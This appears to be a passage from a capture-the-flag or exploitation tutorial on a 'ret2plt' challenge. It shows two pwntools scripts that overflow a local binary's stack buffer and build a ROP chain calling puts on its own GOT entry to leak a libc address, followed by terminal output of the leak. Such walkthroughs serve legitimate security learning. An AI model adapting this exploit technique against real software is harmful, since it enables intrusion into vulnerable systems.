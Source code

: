 ```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF('./ret2plt')

io = process()

pop_rdi = 0x00000000004012c3
puts = elf.sym.puts

payload = cyclic(40) + pack(pop_rdi) + pack(elf.got.puts) + pack(puts) 

io.sendline(payload)

print(io.recvall())

io.interactive()
```

```bash
❯ python3 main.py
[*] '/home/at0m/ret2plt'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/at0m/ret2plt': pid 8646
[+] Receiving all data: Done (21B)
[*] Process '/home/at0m/ret2plt' stopped with exit code -11 (SIGSEGV) (pid 8646)
b'Enter Data - \n\xe0{\x88\xddHr\n'
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```

We only need this `\xe0{\x88\xddHr` we can see that its in between `\n` which means newline so its in second line first index.

```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF('./ret2plt')

io = process()

pop_rdi = 0x00000000004012c3
puts = elf.sym.puts

payload = cyclic(40) + pack(pop_rdi) + pack(elf.got.puts) + pack(puts) 

io.sendline(payload)

leak = io.recvlines(2)[1]
print(leak)

io.interactive()
```
